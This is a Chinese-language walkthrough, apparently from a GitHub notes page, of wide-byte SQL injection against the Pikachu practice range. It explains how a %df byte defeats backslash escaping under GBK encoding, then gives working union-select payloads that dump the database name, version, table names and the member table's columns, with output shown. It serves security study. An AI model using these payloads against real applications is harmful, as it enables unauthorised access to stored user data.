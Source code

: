 ```
把25在数据包中删除，变为：
kobe%df%27+or+1%3D1+%23

通过数据包，得到正确结果，\被成功解析掉
```
- 原理：
  - 前端输入的反斜杠\经过ULR编码后是%5c。在输入%df后，使得添加反斜杠后形成%df%5c，如果程序数据库使用了GBK编码，%df%5c会被识别成繁体字“连”，单引号成功逃逸。整个过程的关键点在于单引号前面的%df,造成宽字节注入使得单引号逃逸成功并闭合语句，才有了后面的操作
  
- 实操：
```
爆库名：(使用pikachu靶场)
判断字段列数

kobe%df' union all select 1,2 #

// 成功出现数据，证明查询字段为2

查询当前库名：

kobe%df' union all select database(),version() #

-- your uid:pikachu
-- your email is: 5.7.26-0ubuntu0.18.04.1-log

// 成功爆出当前的库名为：pikachu
```
```
爆表名
判断当前数据库中的表的个数

kobe%df' union all select count(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:5
-- your email is: 1

// 成功爆出pikachu数据库下有5个表
// 感觉5个表名，同时爆，应该不会超字符数量限制，尝试使用group_concat()

然后爆表名：

kobe%df' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:httpinfo,member,message,users,xssblind 
-- your email is: 1

// 成功爆出所有表名

爆字段名(以member表为例)

kobe%df' union all select group_concat(column_name),1 from information_schema.COLUMNS where TABLE_NAME = (select TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() limit 1,1)#

-- your uid:id,username,pw,sex,phonenum,address,email 
-- your email is: 1

// 成功爆出所有字段名：id,username,pw,sex,phonenum,address,email
```
